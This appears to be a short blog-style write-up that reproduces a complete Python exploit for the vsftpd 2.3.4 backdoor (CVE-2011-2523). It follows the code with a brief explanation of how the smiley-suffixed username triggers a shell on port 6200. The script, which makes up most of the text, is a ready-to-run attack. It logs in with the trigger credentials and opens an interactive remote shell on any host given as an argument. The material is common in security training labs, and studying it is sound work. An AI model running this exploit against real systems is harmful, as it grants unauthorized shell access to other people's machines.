 ```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3

from telnetlib import Telnet
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)
parser=argparse.ArgumentParser()
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()
host = args.host
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()

```

Turns out its pretty simple to exploit. The key take away are:

- Login with any username that ends with a `:)` and any password to trigger the backdoor
- If that was successful then connect on `port 6200` to get a shell

That's  pretty slick!!!!! My curiosity got the best of me so i decided to do a research on this backdoor. Turns out a this was introduced to vsftpd 2.3.4 `str.c` file which contains code for handling string manipulation routines.
